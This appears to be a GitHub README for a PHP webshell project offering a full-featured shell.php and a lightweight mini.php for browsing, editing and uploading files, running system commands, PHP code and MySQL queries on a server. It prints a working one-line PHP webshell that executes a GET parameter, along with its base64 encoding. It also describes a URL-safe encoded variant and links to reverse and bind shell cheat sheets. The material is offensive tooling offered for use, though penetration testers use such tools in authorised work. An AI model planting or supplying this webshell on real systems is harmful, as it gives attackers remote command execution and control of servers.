 ## PHP Webshell

This is a simple yet useful PHP webshell.
It is compatible with PHP > 5.2

This webshell comes in two flavours :
- shell.php : fully featured webshell to exploit
- mini.php : lightweight, only essential features

### Features

shell.php
- browse server's directory tree
- read, edit, delete, upload and download file
- Execute system commands
- Execute PHP code
- Execute MySql queries

mini.php
- Execute system commands
- Execute PHP code
- Upload file

### More content

Another file is available : `mini-b64.txt`
This is the base64 version of mini.php. It does not contain '+' and '/' chars to avoid URL encoding and other possible issues.

### Even more tricks

##### Tiniest PHP shell

`<?php system($_GET['c'])?>`

`PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pPz4=`

#### Upgrade to a more interactive shell

PHP reverse shell : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
PHP bind shell : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md

###### Good resources about shells
https://www.revshells.com/
https://yolospacehacker.com/hackersguide/en/?cat=Webshell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
